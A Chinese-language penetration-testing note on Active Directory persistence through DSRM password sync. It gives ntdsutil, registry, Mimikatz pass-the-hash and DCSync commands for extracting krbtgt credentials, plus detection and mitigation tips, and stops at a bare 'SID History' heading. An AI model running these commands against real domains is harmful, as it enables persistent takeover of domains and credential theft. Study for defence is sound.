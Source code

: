 
## 域

**相关文章**
- [我所了解的内网渗透——内网渗透知识大总结](https://www.anquanke.com/post/id/92646#h2-18)

### AD持久化

**DSRM 密码同步**

- 相关文章 : [巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)
- 相关文章 : [DS Restore Mode Password Maintenance](https://docs.microsoft.com/zh-cn/archive/blogs/askds/ds-restore-mode-password-maintenance)
- 相关文章 : [Sneaky Active Directory Persistence #11: Directory Service Restore Mode (DSRM)](https://adsecurity.org/?p=1714)
- 相关文章 : [Sneaky Active Directory Persistence #13: DSRM Persistence v2](https://adsecurity.org/?p=1785)

获取到域控权限后利用 DSRM 密码同步将域管权限持久化。

Windows Server 2008 需要安装 [KB961320](https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni) 补丁才支持 DSRM 密码同步，Windows Server 2003不支持 DSRM 密码同步。

```
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT krbtgt
Q
```

修改注册表允许 DSRM 账户远程访问

修改注册表 hkey_local_machineSystemCurrentControlSetControlLsa 路径下的 DSRMAdminLogonBehavior 的值为2。

系统默认不存在 DSRMAdminLogonBehavior，需手动添加。

此时可用 pth 登录
```
Mimikatz "privilege::debug" "sekurlsa::pth /domain:<域> /user:Administrator /ntlm:<hash>" exit
```

由于可以为 DSRM 帐户 PTH，因此可以使用 Mimikatz DCSync 利用此访问权限为任何域帐户提取密码数据。我们可以针对特定的域控制器，并使用 DC 的简称来强制执行 NTLM 身份验证。
```
Mimikatz "lsadump :: dcsync /domain:lab.adsecurity.org / dc：adsdc03 / user：krbtgt"
```

DSRM 账户是域控的本地管理员账户，并非域的管理员帐户。所以 DSRM 密码同步之后并不会影响域的管理员帐户。

事件查看器的安全事件中筛选事件 ID 为 4794 的事件日志，来判断域管是否经常进行 DSRM 密码同步操作。

- 缓解措施
    - 确保每一台域控制器的 DSRM 账户密码是唯一的并且定期修改此密码。同时，确保注册表 DsrmAdminLogonBehavior 的值不为 2，最好将其直接删除或者设置其值为 1 或 0。

**SID 历史**

- 相关文章 : [Sneaky Active Directory Persistence #14: SID History](https://adsecurity.org/?p=1772)
